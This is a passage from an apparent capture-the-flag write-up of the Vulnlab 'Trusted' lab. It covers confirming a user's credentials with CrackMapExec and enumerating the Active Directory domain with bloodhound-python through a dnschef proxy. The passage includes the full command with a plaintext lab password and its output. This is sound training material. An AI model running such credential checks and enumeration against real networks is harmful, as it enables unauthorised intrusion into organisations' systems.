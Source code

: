 Using CrackMapExec, we confirmed the credentials of the user `rsmith` on labdc.

<img src="attachments/946ff15d2aa19bb0e8403ddb8ad20403.png" />

---

#### Bloodhound Enumeration

Ran BloodHound-python with the domain controller as the nameserver, and also the localhost with DNSChef, but both failed.

<img src="attachments/bf3da1f94f05f71700a7617a1cbc15e0.png" />

This can be fixed by using `dnschef` to proxy all the records back to the domain controller.

```
dnschef --fakeip 10.10.242.86
```

```
root@falcon:~/Vulnlab-Falcon/Chains/Trusted# bloodhound-python -d 'LAB.TRUSTED.VL' -u 'rsmith' -p 'IHateEric2' -ns 127.0.0.1 -dc labdc.LAB.TRUSTED.VL -c all
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: labdc.LAB.TRUSTED.VL
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: labdc.LAB.TRUSTED.VL
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
INFO: Found 7 users
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
INFO: Found 47 groups
INFO: Found 2 gpos
INFO: Found 5 ous
```